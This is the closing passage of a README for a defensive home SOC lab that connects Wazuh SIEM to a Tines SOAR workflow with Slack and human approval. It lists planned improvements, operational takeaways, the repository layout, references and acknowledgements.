- Add unit tests for Tines formulas and JSON schemas.
- Add response simulation mode before production activation.
- Add separate playbooks for brute force, suspicious PowerShell, account manipulation, malware, and persistence.
- Add a metrics dashboard showing alert volume, false positives, approvals, rejected actions, successful responses, and failed responses.
- Add formal incident closure criteria and lessons-learned review.

## Security Operations Takeaways

- Detection engineering depends on clean telemetry and accurate field mapping.
- A successful API response does not prove the endpoint action succeeded. Response verification is essential.
- Private IP indicators require internal context rather than public reputation alone.
- AI-generated triage needs evidence restrictions and structured output.
- Human approval reduces the risk of automated containment affecting trusted systems.
- Threat intelligence adds context, while SOC telemetry confirms what occurred inside the environment.
- Linking Wazuh, Tines, Slack, and Active Response creates a repeatable detection-to-containment process.

## Repository Structure

```text
Wazuh-SIEM-Tines-SOAR-Lab/
├── README.md
└── images/
    ├── 01-wazuh-dashboard-overview.png
    ├── 02-connected-agents.png
    ├── ...
    └── 21-human-approval-page.png
```

## References

- [Wazuh documentation](https://documentation.wazuh.com/current/)
- [Wazuh API reference](https://documentation.wazuh.com/current/user-manual/api/reference.html)
- [Wazuh default active response scripts](https://documentation.wazuh.com/current/user-manual/capabilities/active-response/default-active-response-scripts.html)
- [Sysmon Modular](https://github.com/olafhartong/sysmon-modular)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [Tines documentation](https://www.tines.com/docs/)
- [Microsoft Windows security auditing documentation](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/)

## Acknowledgement

This project was completed as part of the **MYDFIR Wazuh Challenge**. The challenge provided the practical foundation for building the Wazuh lab, testing detections, investigating alerts, and connecting Wazuh to a SOAR workflow.

The presentation style and high-level report organisation were informed by Justin Jude Fernandes' public SOC investigation portfolio:

[Microsoft Defender XDR Phishing-Led Multi-Stage Attack Simulation and End-to-End SOC Investigation](https://github.com/justinjudefernandes/Microsoft-Defender-XDR-Phishing-Led-Multi-Stage-Attack-Simulation-End-to-End-SOC-Investigation)

The technical work, screenshots, analysis, and Wazuh and Tines implementation documented here are from my own lab.

## Author

Eneattah Grace Ogebe
